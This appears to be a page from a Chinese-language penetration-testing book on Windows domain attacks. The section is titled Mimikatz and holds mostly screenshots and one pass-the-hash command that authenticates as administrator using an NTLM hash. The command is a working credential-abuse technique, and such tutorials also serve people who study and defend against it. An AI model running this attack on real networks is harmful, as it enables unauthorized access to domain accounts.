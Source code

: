 > 原文：[http://book.iwonder.run/域渗透/4.2.4.1.html](http://book.iwonder.run/域渗透/4.2.4.1.html)

#### 4.2.4.1 Mimikatz

![image](img/14f2c3ebcb7d1b14f7d47206f6262a21.png)

![image](img/7b129ce43c57b51e30386020307dc880.png)

```
mimikatz # sekurlsa::pth /user:administrator /domain:. /ntlm:c5113714efbff7fa196f2e2b50938a8f 
```

![image](img/d41793537a49f43aa4199592cdad0bd7.png)

